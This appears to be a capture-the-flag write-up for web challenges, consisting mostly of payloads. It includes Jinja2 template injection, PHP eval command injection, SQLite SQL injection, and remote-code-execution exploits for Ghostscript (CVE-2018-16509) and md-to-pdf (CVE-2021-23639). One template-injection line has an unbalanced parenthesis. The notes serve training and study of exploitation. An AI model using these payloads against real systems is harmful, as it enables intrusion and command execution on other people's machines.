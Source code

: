 # WEB

## Templeted `Flask/Jinja2 Template Injection`
Flask/Jinja2 Template Injection
Payload:
```
http://<ip_address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```


## LoveTok `Code Injection [PHP eval()]`
```
# Get flag file name
http://<ip_address>/?format=${system($_GET[1])}&1=ls

# Get flag
http://<ip_address>/?format=${system($_GET[1])}&1=cat+flageXXXX
```


## Toxic `Insecure Deserialization` & `Log Poisoning Attack`
### `TODO`



## petpetrcb `CVE-2018-16509`
Ghostscript === 9.23 RCE
Payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


Payload for this challenge:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## Under Construction `JWT Algorithm Confusion` & `SQL Injection`
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```
# Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

# Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

# Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```


## Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```
# In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

# In PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```
